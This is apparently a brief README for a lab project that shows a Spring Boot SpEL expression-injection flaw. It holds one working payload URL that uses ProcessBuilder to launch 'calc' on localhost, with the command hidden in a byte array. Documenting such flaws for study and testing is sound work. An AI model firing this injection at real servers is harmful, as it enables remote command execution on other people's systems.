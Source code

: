 SpringBoot SpEL表达式注入漏洞
IDEA导入

执行http://127.0.0.1:8080/fail2?payload=${new%20java.lang.ProcessBuilder(new%20java.lang.String(new%20byte[]{99,97,108,99})).start()}


参考


https://www.cnblogs.com/litlife/archive/2018/12/27/10183137.html
https://mp.weixin.qq.com/s?__biz=MzAwMzI0MTMwOQ==&mid=2650173748&idx=1&sn=a0fa9e48ed05d80b7c693082f6b687ce&scene=1&srcid=0911LaFVNrVdYZr7nIyS8Nn3#rd
